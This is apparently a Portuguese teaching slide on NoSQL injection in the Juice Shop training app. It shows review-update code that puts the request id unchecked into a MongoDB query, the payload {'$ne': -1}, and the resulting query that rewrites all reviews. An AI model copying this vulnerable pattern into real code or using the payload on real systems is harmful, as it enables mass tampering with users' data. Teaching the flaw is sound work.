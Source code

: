 # NoSQL Injection

<div v-click>
Atualização de reviews do JuiceShop
```javascript
db.reviews.update(
    { _id: req.body.id },
    { $set: { message: req.body.message } },
    { multi: true }
)
```
</div>
<br>
<div v-click>
E se no id da requisição for enviado um JSON ?

```json
{"$ne": -1}
```
</div>
<br>
<div v-click>
Resultado:

```javascript
db.reviews.update(
    { _id: {"$ne": -1} },
    { $set: { message: req.body.message } },
    { multi: true }
)
```
</div>